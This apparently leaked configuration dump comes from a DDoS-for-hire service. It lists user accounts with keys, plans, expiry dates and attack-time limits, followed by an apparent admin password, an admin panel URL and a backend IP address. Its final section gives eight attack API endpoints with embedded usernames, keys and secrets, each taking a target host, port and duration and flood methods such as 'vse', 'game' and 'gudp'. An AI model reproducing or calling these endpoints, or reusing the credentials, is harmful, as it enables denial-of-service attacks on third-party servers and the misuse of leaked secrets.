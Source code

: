 10
MaxTime
120
Banned
0
===========================================
Username
unholy
Key
Vaw2Xonw8XNcs0w
Plan
User
Expiry
22-01-2024
Cooldown
30
Threads
1
Cons
2
MaxTime
43200
Banned
0
========================================


denial0137!!

Admin


https://imagine-funneling.xyz/

Backend
http://45.142.114.179/





APIS:

NFO

http://api.tcp-connect.xyz/api/attack?username=denial&secret=denialapiong41s1sS1Sxdljeed&host=[host]&port=[port]&time=[time]&method=.game
https://imagine-funneling.xyz/api/attack?token=IqJ1on9X7vwgJgv636H&host=[host]&port=[port]&time=[time]&threads=1&method=vse
http://45.90.12.98:65535/api/attack?username=deni&key=deni123&host=[host]&port=[port]&time=[time]&method=vse
http://141.98.7.26/kkkkkks8s88s/ddos.php?key=xnvmn&&host=[host]&port=[port]&time=[time]&method=GAME
https://gorilla-spoofed-api.cloud/api/attack?username=cindy&secret=cindyyyy454&host=[host]&port=[port]&time=[time]&method=game
http://51.222.196.58/api.php?key=test&host=[host]&port=[port]&time=[time]&method=VSE
https://yuze-api.xyz/yuze/api?key=denial89&host=[host]&port=[port]&time=[time]&method=!gudp
https://yuze-api.xyz/yuze/api?key=denial89&host=[host]&port=[port]&time=[time]&method=!vse
